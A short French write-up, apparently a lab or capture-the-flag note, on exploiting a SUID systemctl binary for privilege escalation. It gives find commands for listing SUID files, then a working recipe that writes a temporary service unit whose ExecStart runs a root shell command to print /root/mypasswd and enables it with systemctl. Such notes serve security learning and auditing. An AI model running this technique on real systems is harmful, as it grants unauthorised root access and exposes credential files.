 Vulnérabilité SUID avec systemctl
===

Recherche de tous les fichiers en SUID sur le serveur via :

```bash
$ find / -user root -perm -4000 -print 2>/dev/null
/bin/umount
/bin/mount
/bin/systemctl
/bin/passwd
/bin/sudo
/bin/newgrp
/bin/mount
[...]
```

Ou :

```bash
$ find / -perm -u=s -type f 2>/dev/null
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```

On remarque que **/bin/systemctl** est de type **SUID**.
Après quelques recherches, on remarque qu'on peut exploiter cette faille avec :

```bash
$ sudo sh -c 'cp $(which systemctl) .; chmod +s ./systemctl'

$ TF=$(mktemp).service
  echo '[Service]
  Type=oneshot
  ExecStart=/bin/sh -c "cat /root/mypasswd"
  [Install]
  WantedBy=multi-user.target' > $TF

$ ./systemctl link $TF

$ ./systemctl enable --now $TF
```

Ce script permet ici, d'afficher le contenu présent dans **/root/mypasswd**.